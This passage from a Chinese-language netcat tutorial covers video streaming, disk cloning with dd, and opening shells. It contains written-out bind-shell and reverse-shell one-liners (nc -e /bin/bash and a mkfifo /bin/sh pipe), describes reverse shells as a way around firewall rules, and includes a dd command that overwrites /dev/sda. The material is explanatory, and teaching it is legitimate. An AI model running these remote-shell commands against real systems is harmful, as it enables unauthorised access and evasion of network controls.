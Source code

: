 这里我们是使用mcrypt用来加密，使用其它任意加密工具都可以。

## 流视频
虽然不是生成流视频的最好方法，但如果服务器上没有特定的工具，使用netcat，我们仍然有希望做成这件事。
服务端
`$cat video.avi | nc -l 1567`
这里我们只是从一个视频文件中读入并重定向输出到netcat客户端
`$nc 172.31.100.7 1567 | mplayer -vo x11 -cache 3000 -`
这里我们从socket中读入数据并重定向到mplayer。

## 克隆一个设备
如果你已经安装配置一台Linux机器并且需要重复同样的操作对其他的机器，而你不想在重复配置一遍。不在需要重复配置安装的过程，只启动另一台机器的一些引导可以随身碟和克隆你的机器。
克隆Linux PC很简单，假如你的系统在磁盘/dev/sda上
Server
`$dd if=/dev/sda | nc -l 1567`
Client
`$nc -n 172.31.100.7 1567 | dd of=/dev/sda`
dd是一个从磁盘读取原始数据的工具，我通过netcat服务器重定向它的输出流到其他机器并且写入到磁盘中，它会随着分区表拷贝所有的信息。但是如果我们已经做过分区并且只需要克隆root分区，我们可以根据我们系统root分区的位置，更改sda 为sda1，sda2.等等。

## 打开一个shell
我们已经用过远程shell-使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。
假设你的netcat支持 -c -e 参数(默认 netcat)
Server
`$nc -l 1567 -e /bin/bash -i`
Client
`$nc 172.31.100.7 1567`
这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash
假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
Server
`$mkfifo /tmp/tmp_fifo`
`$cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo`
这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。
说明：
从网络收到的输入写到fifo文件中
cat 命令读取fifo文件并且其内容发送给sh命令
sh命令进程受到输入并把它写回到netcat。
netcat 通过网络发送输出到client
至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。
在客户端仅仅简单连接到服务器
Client
`$nc -n 172.31.100.7 1567`
你会得到一个shell提示符在客户端

## 反向shell
反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端

`$nc -l 1567`
在客户端，简单地告诉netcat在连接完成后，执行shell。
客户端

`$nc 172.31.100.7 1567 -e /bin/bash`
现在，什么是反向shell的特别之处呢 
 反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。 